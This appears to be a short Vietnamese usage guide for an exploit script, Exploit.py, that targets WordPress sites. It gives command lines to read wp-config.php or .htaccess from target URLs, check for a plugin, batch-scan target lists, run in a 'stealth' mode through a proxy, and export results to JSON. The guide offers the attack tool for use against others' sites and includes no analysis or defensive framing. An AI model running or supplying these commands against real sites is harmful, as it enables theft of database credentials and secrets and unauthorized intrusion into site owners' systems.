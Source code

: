  + 🧪 Cách sử dụng cơ bản:
python3 Exploit.py --url https://target.com --cmd wp-config.php
+ 🔍 Chế độ kiểm tra plugin:
python3  Exploit.py --url https://target.com --check-only
+ 📂 Chế độ batch scan:
python3  Exploit.py --file targets.txt --cmd wp-config.php
+ targets.txt ví dụ:
- https://target1.com
- http://target2.com
+ 🕵️‍♂️ Chế độ stealth + Proxy:
python3  Exploit.py --url https://target.com --cmd .htaccess --stealth --proxy http://127.0.0.1:8080
+ 🧾 Xuất kết quả ra JSON:
python3  Exploit.py --file targets.txt --cmd wp-config.php --json-output result.json
